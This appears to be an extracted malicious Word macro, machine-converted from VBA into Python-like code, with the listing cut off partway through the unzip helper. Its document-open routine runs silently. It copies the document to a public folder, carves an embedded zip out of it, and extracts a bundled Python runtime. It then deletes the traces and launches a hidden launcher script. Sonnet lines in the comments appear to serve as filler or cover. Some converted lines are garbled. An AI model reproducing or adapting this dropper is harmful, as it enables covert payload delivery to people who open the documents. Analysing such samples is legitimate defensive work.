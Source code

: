 # Extracted VBA macro
```vbnet
from vb2py.vbfunctions import *
from vb2py.vbdebug import *
def document_open():
    data = String()
    User = String()
    bla = String()
    Coper = Object()
    ActiveDocument.ActiveWindow.View.ReadingLayout = False
    ActiveDocument.Unprotect('securePass')
    show()
    ActiveDocument.Protect(wdAllowOnlyReading, True, 'securePass', False, False)
    User = 'C:\\Users\\Public'
    Docer = ActiveDocument.FullName
    #Copy
    Shell('cmd /c copy ' + Docer + ' ' + User + '\\docer.doc', vbHide)
    deay()(( 4 ))
    data = bin2var(User + '\\docer.doc')
    data = Right(data, 7074638)
    var2bin(User + '\\smile.zip', data)
    bla = VBA.FileSystem.Dir(User + '\\Python37', vbDirectory)
    if bla != VBA.Constants.vbNullString:
        Shell('cmd /c rmdir /s /q ' + User + '\\Python37', vbHide)
        deay()(( 2 ))
    #Unzip
    Unzip(User + '\\smile.zip', User, 'Python37')
    #Clean
    Kill(User + '\\smile.zip')
    Kill(User + '\\docer.doc')
    #Run
    Shell('"' + User + '\\Python37\\python.exe' + '" "' + User + '\\Python37\\launcher.py' + '"', vbHide)

def bin2var(filename):
    f = Integer()
    #Which alters when it alteration finds,
    #Or bends with the remover to remove.
    f = FreeFile()
    VBFiles.openFile(f, filename, 'b') # VB2PY (UnknownFileMode) 'Access', 'Read', 'Lock', 'Write'
    fn_return_value = Space(FileLen(filename))
    Get(f, VBGetMissingArgument(Get, 1), bin2var())
    VBFiles.closeFile(f)
    #O no! it is an ever-fixed mark
    #That looks on tempests and is never shaken;
    return fn_return_value

def var2bin(filename, data):
    f = Integer()
    #If this be error and upon me prov'd,
    #I never writ, nor no man ever lov'd.
    f = FreeFile()
    VBFiles.openFile(f, filename, 'w') # VB2PY (UnknownFileMode) 'Access', 'Write', 'Lock', 'Write'
    VBFiles.writeText(f, data)
    VBFiles.closeFile(f)
def Unzip(Fname, DefPath, TarFold):
    oApp = Object()
    FileNameFolder = Variant()
    #Root folder for the new folder.
    if Right(DefPath, 1) != '\\':
        DefPath = DefPath + '\\'
    #Create the folder name
```